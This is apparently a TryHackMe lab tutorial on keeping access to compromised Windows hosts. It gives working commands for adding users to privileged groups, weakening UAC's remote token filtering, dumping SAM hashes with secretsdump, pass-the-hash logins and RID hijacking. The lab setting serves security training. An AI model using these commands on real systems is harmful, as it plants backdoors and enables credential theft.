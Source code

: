 #+TITLE: Window Local Persistence

* Introduction

After gaining the first foothold on your target's internal network, you'll want to ensure you don't lose access to it before actually getting to the crown jewels. Establishing persistence is one of the first tasks we'll have as attackers when gaining access to a network. In simple terms, persistence refers to creating alternate ways to regain access to a host without going through the exploitation phase all over again.
backdoored server

There are many reasons why you'd want to establish persistence as quick as possible, including:

   - Re-exploitation isn't always possible: Some unstable exploits might kill the vulnerable process during exploitation, getting you a single shot at some of them.
   - Gaining a foothold is hard to reproduce: For example, if you used a phishing campaign to get your first access, repeating it to regain access to a host is simply too much work. Your second campaign might also not be as effective, leaving you with no access to the network.
   - The blue team is after you: Any vulnerability used to gain your first access might be patched if your actions get detected. You are in a race against the clock!

While you could do with keeping some administrator's password hash and reusing it to connect back, you always risk those credentials getting rotated at some point. Plus, there are sneakier ways in which you could regain access to a compromised machine, making life harder for the blue team.

In this room, we'll look at the most common techniques attackers use to establish persistence in Windows systems. Before going into this room, it is recommended to be familiar with Windows systems fundamentals. You can check rooms on the matter in the following links:

    - [[https://tryhackme.com/room/windowsfundamentals1xbx][Windows Fundamentals 1]]
    - [[https://tryhackme.com/room/windowsfundamentals2x0x][Windows Fundamentals 2]]

Powershell is also used extensively throughout this room. You can learn more about it in the [[https://tryhackme.com/room/powershell][Hacking with Powershell]] room.

* Tampering With Unprivileged Accounts

Having an administrator's credential would be the easiest way to achieve persistence in a machine. However, to make it harder for the blue team to detect us, we can manipulate unprivileged users, which usually won't be monitored as much as administrators, and grant them administrative privileges somehow.

Click the Start Machine button on this task before continuing. The machine will be available on your web browser, but if you prefer connecting via RDP, you can use the following credentials:

Note: When you log in via RDP, the existing in-browser view will be disconnected. After you terminate your RDP session you can get the in-browser view back by pressing Reconnect.

Notice that we assume you have already gained administrative access somehow and are trying to establish persistence from there.

Assign Group Memberships

For this part of the task, we will assume you have dumped the password hashes of the victim machine and successfully cracked the passwords for the unprivileged accounts in use.

The direct way to make an unprivileged user gain administrative privileges is to make it part of the Administrators group. We can easily achieve this with the following command:
Command Prompt

C:\> net localgroup administrators thmuser0 /add

        

This will allow you to access the server by using RDP, WinRM or any other remote administration service available.

If this looks too suspicious, you can use the Backup Operators group. Users in this group won't have administrative privileges but will be allowed to read/write any file or registry key on the system, ignoring any configured DACL. This would allow us to copy the content of the SAM and SYSTEM registry hives, which we can then use to recover the password hashes for all the users, enabling us to escalate to any administrative account trivially.

To do so, we begin by adding the account to the Backup Operators group:
Command Prompt

C:\> net localgroup "Backup Operators" thmuser1 /add

        

Since this is an unprivileged account, it cannot RDP or WinRM back to the machine unless we add it to the Remote Desktop Users (RDP) or Remote Management Users (WinRM) groups. We'll use WinRM for this task:
Command Prompt

C:\> net localgroup "Remote Management Users" thmuser1 /add

        

We'll assume we have already dumped the credentials on the server and have thmuser1's password. Let's connect via WinRM using its credentials:
THM key
Username 	thmuser1
Password 	Password321

If you tried to connect right now from your attacker machine, you'd be surprised to see that even if you are on the Backups Operators group, you wouldn't be able to access all files as expected. A quick check on our assigned groups would indicate that we are a part of Backup Operators, but the group is disabled:
AttackBox

user@AttackBox$ evil-winrm -i MACHINE_IP -u thmuser1 -p Password321

*Evil-WinRM* PS C:\> whoami /groups

GROUP INFORMATION
-----------------

Group Name                             Type             SID          Attributes
====================================== ================ ============ ==================================================
Everyone                               Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                          Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Backup Operators               Alias            S-1-5-32-551 Group used for deny only
BUILTIN\Remote Management Users        Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                   Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization         Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account             Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication       Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level Label            S-1-16-8192

        

This is due to User Account Control (UAC). One of the features implemented by UAC, LocalAccountTokenFilterPolicy, strips any local account of its administrative privileges when logging in remotely. While you can elevate your privileges through UAC from a graphical user session (Read more on UAC here), if you are using WinRM, you are confined to a limited access token with no administrative privileges.

To be able to regain administration privileges from your user, we'll have to disable LocalAccountTokenFilterPolicy by changing the following registry key to 1:
Command Prompt

C:\> reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1

        

Once all of this has been set up, we are ready to use our backdoor user. First, let's establish a WinRM connection and check that the Backup Operators group is enabled for our user:
AttackBox

user@AttackBox$ evil-winrm -i MACHINE_IP -u thmuser1 -p Password321
        
*Evil-WinRM* PS C:\> whoami /groups

GROUP INFORMATION
-----------------

Group Name                           Type             SID          Attributes
==================================== ================ ============ ==================================================
Everyone                             Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                        Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Backup Operators             Alias            S-1-5-32-551 Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users      Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                 Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users     Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization       Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account           Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication     Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level Label            S-1-16-12288

        

We then proceed to make a backup of SAM and SYSTEM files and download them to our attacker machine:
AttackBox

*Evil-WinRM* PS C:\> reg save hklm\system system.bak
    The operation completed successfully.

*Evil-WinRM* PS C:\> reg save hklm\sam sam.bak
    The operation completed successfully.

*Evil-WinRM* PS C:\> download system.bak
    Info: Download successful!

*Evil-WinRM* PS C:\> download sam.bak
    Info: Download successful!

        

Note: If Evil-WinRM takes too long to download the files, feel free to use any other transfer method.

With those files, we can dump the password hashes for all users using secretsdump.py or other similar tools:
AttackBox

user@AttackBox$ python3.9 /opt/impacket/examples/secretsdump.py -sam sam.bak -system system.bak LOCAL

Impacket v0.9.24.dev1+20210704.162046.29ad5792 - Copyright 2021 SecureAuth Corporation

[*] Target system bootKey: 0x41325422ca00e6552bb6508215d8b426
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:1cea1d7e8899f69e89088c4cb4bbdaa3:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:9657e898170eb98b25861ef9cafe5bd6:::
thmuser1:1011:aad3b435b51404eeaad3b435b51404ee:e41fd391af74400faa4ff75868c93cce:::
[*] Cleaning up...

        

And finally, perform Pass-the-Hash to connect to the victim machine with Administrator privileges:
AttackBox

user@AttackBox$ evil-winrm -i MACHINE_IP -u Administrator -H 1cea1d7e8899f69e89088c4cb4bbdaa3

        

THM flagUsing the Administrator console gained through the thmuser1, execute C:\flags\flag1.exe to retrieve your flag.

Special Privileges and Security Descriptors

A similar result to adding a user to the Backup Operators group can be achieved without modifying any group membership. Special groups are only special because the operating system assigns them specific privileges by default. Privileges are simply the capacity to do a task on the system itself. They include simple things like having the capabilities to shut down the server up to very privileged operations like being able to take ownership of any file on the system. A complete list of available privileges can be found here for reference.

In the case of the Backup Operators group, it has the following two privileges assigned by default:

    SeBackupPrivilege: The user can read any file in the system, ignoring any DACL in place.
    SeRestorePrivilege: The user can write any file in the system, ignoring any DACL in place.

We can assign such privileges to any user, independent of their group memberships. To do so, we can use the secedit command. First, we will export the current configuration to a temporary file:

secedit /export /cfg config.inf

We open the file and add our user to the lines in the configuration regarding the SeBackupPrivilege and SeRestorePrivilege:

config.inf contents

We finally convert the .inf file into a .sdb file which is then used to load the configuration back into the system:

secedit /import /cfg config.inf /db config.sdb

secedit /configure /db config.sdb /cfg config.inf

You should now have a user with equivalent privileges to any Backup Operator. The user still can't log into the system via WinRM, so let's do something about it. Instead of adding the user to the Remote Management Users group, we'll change the security descriptor associated with the WinRM service to allow thmuser2 to connect. Think of a security descriptor as an ACL but applied to other system facilities.

To open the configuration window for WinRM's security descriptor, you can use the following command in Powershell (you'll need to use the GUI session for this):

Set-PSSessionConfiguration -Name Microsoft.PowerShell -showSecurityDescriptorUI

This will open a window where you can add thmuser2 and assign it full privileges to connect to WinRM:

WinRM security descriptor

Once we have done this, our user can connect via WinRM. Since the user has the SeBackup and SeRestore privileges, we can repeat the steps to recover the password hashes from the SAM and connect back with the Administrator user.

Notice that for this user to work with the given privileges fully, you'd have to change the LocalAccountTokenFilterPolicy registry key, but we've done this already to get the previous flag.

If you check your user's group memberships, it will look like a regular user. Nothing suspicious at all!
Command Prompt

C:\> net user thmuser2
User name                    thmuser2

Local Group Memberships      *Users
Global Group memberships     *None

        

Once again, we'll assume we have already dumped the credentials on the server and have thmuser2's password. Let's connect with its credentials using WinRM:
THM key
Username 	thmuser2
Password 	Password321

We can log in with those credentials to obtain the flag.
THM flagLog in to the machine via WinRM using thmuser2 and execute C:\flags\flag2.exe to retrieve your flag.

RID Hijacking

Another method to gain administrative privileges without being an administrator is changing some registry values to make the operating system think you are the Administrator.

When a user is created, an identifier called Relative ID (RID) is assigned to them. The RID is simply a numeric identifier representing the user across the system. When a user logs on, the LSASS process gets its RID from the SAM registry hive and creates an access token associated with that RID. If we can tamper with the registry value, we can make windows assign an Administrator access token to an unprivileged user by associating the same RID to both accounts.

In any Windows system, the default Administrator account is assigned the RID = 500, and regular users usually have RID >= 1000.

To find the assigned RIDs for any user, you can use the following command:
Command Prompt

C:\> wmic useraccount get name,sid

Name                SID
Administrator       S-1-5-21-1966530601-3185510712-10604624-500
DefaultAccount      S-1-5-21-1966530601-3185510712-10604624-503
Guest               S-1-5-21-1966530601-3185510712-10604624-501
thmuser1            S-1-5-21-1966530601-3185510712-10604624-1008
thmuser2            S-1-5-21-1966530601-3185510712-10604624-1009
thmuser3            S-1-5-21-1966530601-3185510712-10604624-1010

        

The RID is the last bit of the SID (1010 for thmuser3 and 500 for Administrator). The SID is an identifier that allows the operating system to identify a user across a domain, but we won't mind too much about the rest of it for this task.

Now we only have to assign the RID=500 to thmuser3. To do so, we need to access the SAM using Regedit. The SAM is restricted to the SYSTEM account only, so even the Administrator won't be able to edit it. To run Regedit as SYSTEM, we will use psexec, available in C:\tools\pstools in your machine:
Command Prompt

C:\tools\pstools> PsExec64.exe -i -s regedit

        

From Regedit, we will go to HKLM\SAM\SAM\Domains\Account\Users\ where there will be a key for each user in the machine. Since we want to modify thmuser3, we need to search for a key with its RID in hex (1010 = 0x3F2). Under the corresponding key, there will be a value called F, which holds the user's effective RID at position 0x30:

RID hijacking 1

Notice the RID is stored using little-endian notation, so its bytes appear reversed.

We will now replace those two bytes with the RID of Administrator in hex (500 = 0x01F4), switching around the bytes (F401):

RID hijacking 2

The next time thmuser3 logs in, LSASS will associate it with the same RID as Administrator and grant them the same privileges.

For this task, we assume you have already compromised the system and obtained the password for thmuser3. For your convenience, the user can connect via RDP with the following credentials:
THM key
Username 	thmuser3
Password 	Password321

If you did everything correctly, you should be logged in to the Administrator's desktop. 


Note: When you log in via RDP, the existing in-browser view will be disconnected. After you terminate your RDP session you can get the in-browser view back by pressing Reconnect.
THM flagLog in to the machine via RDP using thmuser3 and execute C:\flags\flag3.exe to retrieve your flag.

